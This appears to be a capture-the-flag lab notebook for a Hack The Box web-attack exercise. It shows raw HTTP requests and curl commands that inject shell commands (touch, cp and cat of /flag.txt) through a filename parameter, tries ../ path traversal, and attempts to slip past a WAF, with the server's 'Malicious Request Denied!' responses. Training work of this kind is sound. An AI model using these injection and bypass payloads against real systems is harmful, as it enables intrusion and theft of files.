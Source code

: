 # HTB_Web_Attack
```
POST /index.php?filename=file1%3B%20touch%20file2%3B  HTTP/1.1
Host: 94.237.60.55:34082
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

filename=file%3B+touch+file2%3B


```



## HTTP request method exploitation and url filtering 


```
POST /index.php?filename=file%3B%20cp%20%2Fflag.txt%20.%2F%3B HTTP/1.1
Host: 94.237.60.55:34082
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```



 ## Attempted combined traversal


 ```

# Try GET with ../ (might work when POST doesn't)
curl -X GET "http://83.136.253.201:36762/index.php?filename=../../flag.txt"

# Use HEAD to check existence without triggering WAF
curl -I -X HEAD "http://83.136.253.201:36762/index.php?filename=../../flag.txt"
```
<body>
    <div class="form-group">
        <h1>File Manager</h1>
        <form role="form" action="index.php" method="GET">
            <input type="text" class="form-control" placeholder="New File Name" name="filename">
        </form>
        <form action="admin/reset.php" method="GET">
            <input type="submit" value="Reset" class="btn btn-danger" />
        </form>
    </div>
</body>
</body>

</html>

<div></div><ul class="list-unstyled" id="file"><div><h3>Available Files:<h3></div><ul><li><h4><a href='notes.txt'>notes.txt</a></h4></li></ul>Malicious Request Denied!</ul




### malicious payload

``
curl -X GET "http://83.136.253.201:36762/index.php?filename=;cat+/flag.txt"

```
<body>
    <div class="form-group">
        <h1>File Manager</h1>
        <form role="form" action="index.php" method="GET">
            <input type="text" class="form-control" placeholder="New File Name" name="filename">
        </form>
        <form action="admin/reset.php" method="GET">
            <input type="submit" value="Reset" class="btn btn-danger" />
        </form>
    </div>
</body>
</body>

</html>

<div></div><ul class="list-unstyled" id="file"><div><h3>Available Files:<h3></div><ul><li><h4><a href='notes.txt'>notes.txt</a></h4></li></ul>Malicious Request Denied!</ul


